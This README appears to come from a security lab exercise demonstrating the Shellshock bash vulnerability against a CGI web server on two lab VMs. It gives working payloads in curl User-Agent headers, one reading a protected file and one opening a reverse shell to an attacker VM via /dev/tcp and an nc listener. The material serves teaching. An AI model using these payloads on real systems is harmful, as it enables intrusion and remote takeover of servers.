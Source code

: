 ## Getting a Reverse Shell via Shellshock Attack

### Background

The shellshock vulnerability exists in some older version of bash - which is also installed on the provided VM. Such a vulnerability allows an attacker to inject arbitrary commands into a victim computer, which runs a CGI-based web server, or runs an OpenSSH server, or runs a DHCP client, or runs a Qmail server, all of them use bash in one way or another. In this exercise, we will demonstrate how an attacker can take advantage of this vulnerability to attack a CGI-based web server. At the end of this exercise, if the attack is successful, the attacker will obtain a reverse shell which allows the attacker to maintain a long term control of the victim server.

### Setup

Two VMs: the victim, and the attacker.

### Preparation

1. on the victim VM, copy the cgi script (myprog.cgi, located at the same folder as this README file) into /usr/lib/cgi-bin.

```console
[05/16/22]seed@VM:~$ ls /usr/lib/cgi-bin/
[05/16/22]seed@VM:~$ sudo cp myprog.cgi /usr/lib/cgi-bin/
[05/16/22]seed@VM:~$ ls /usr/lib/cgi-bin/
myprog.cgi
```

2. on the victim VM, change the cgi script's permission to 755.

```console
[05/16/22]seed@VM:~$ sudo chmod 755 /usr/lib/cgi-bin/myprog.cgi
[05/16/22]seed@VM:~$ ls -l /usr/lib/cgi-bin/myprog.cgi 
-rwxr-xr-x 1 root root 84 May 16 13:10 /usr/lib/cgi-bin/myprog.cgi
```

3. on the victim VM, use the browser to test the cgi web page works: type http://localhost/cgi-bin/myprog.cgi in the browser address bar. As shown in this screenshot:

![alt text](test-webpage.png "cgi page works")

4. on the victim VM, create a secret file in the /usr/lib/cgi-bin folder (note: you need sudo to create anything inside /usr/lib/cgi-bin/secret):

```console
[05/16/22]seed@VM:~$ cat /usr/lib/cgi-bin/secret 
This is a secret.
```

### Launch the Attack

5. on the victim VM, accessing the secret file directly from your browser won't work:

![alt text](accessing-secret-from-browser.png "can't access it directly")

6. on the victim VM, accessing the secret file using curl still doesn't work:

![alt text](accessing-secret-from-curl.png "can't access it via curl")

7. yet, on the victim VM, accessing the secret file via the cgi script works:

```console
[05/16/22]seed@VM:~$ curl -v http://localhost/cgi-bin/myprog.cgi -A "() { :; }; echo Context-Type: text/plain; echo; /bin/cat secret;"
```

as the screenshot shows:
![alt text](accessing-secret-via-cgi.png "access it via cgi")

**Explanation**: the vulnerability exists in the bash's parser, which enables information passed as the parameter of the *-A* option to be executed.

### Get a Reverse Shell

8. on the attacker VM, open a terminal window and in that window run *nc -lv 9090* to listen on port 9090.

![alt text](port-listening.png "listen on port 9090")

9. on the attacker VM, open a different terminal window and run this: (remember to replace 172.16.77.128 with the victim VM's ip address, and replace 172.16.77.129 with the attacker VM's ip address)

```console
curl -v http://172.16.77.128/cgi-bin/myprog.cgi -A "() { :; }; echo Context-Type: text/plain; echo; /bin/bash -i > /dev/tcp/172.16.77.129/9090 0<&1 2>&1"
```

before pressing enter:

![alt text](attack-before-enter.png "before pressing enter")

after pressing enter:

![alt text](attack-after-enter.png "after pressing enter")

10. now switch to the *nc* terminal window, and we see the reverse shell is created:

![alt text](reverse-shell-success-p1.png "reverse shell created")

and it's confirmed via the *ifconfig* command.

![alt text](reverse-shell-success-p2.png "confirm that the reverse shell indeed created")

